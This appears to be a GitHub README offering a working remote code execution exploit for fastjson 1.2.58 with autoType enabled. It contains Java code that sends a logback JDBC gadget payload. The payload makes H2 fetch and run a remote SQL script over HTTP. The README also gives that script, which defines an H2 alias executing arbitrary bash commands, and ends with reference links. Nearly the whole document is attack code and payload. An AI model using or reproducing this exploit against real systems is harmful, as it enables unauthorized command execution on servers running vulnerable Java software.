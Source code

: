 # fastjson-1.2.58-rce
#### need: 
```
fastjson autoType is enabled
h2 database and some jar
```


![](./fastjson-1.2.58.jpg)

### exp.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class exp {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"ch.qos.logback.core.db.DriverManagerConnectionSource\", \"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'\"}";
        JSONObject json = JSON.parseObject(payload);
        json.toJSONString();
    }
}
```

### inject.sql
`you can create an function on H2 that calls a java code`
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc')

```

## 参考链接

https://www.freebuf.com/vuls/209394.html

https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
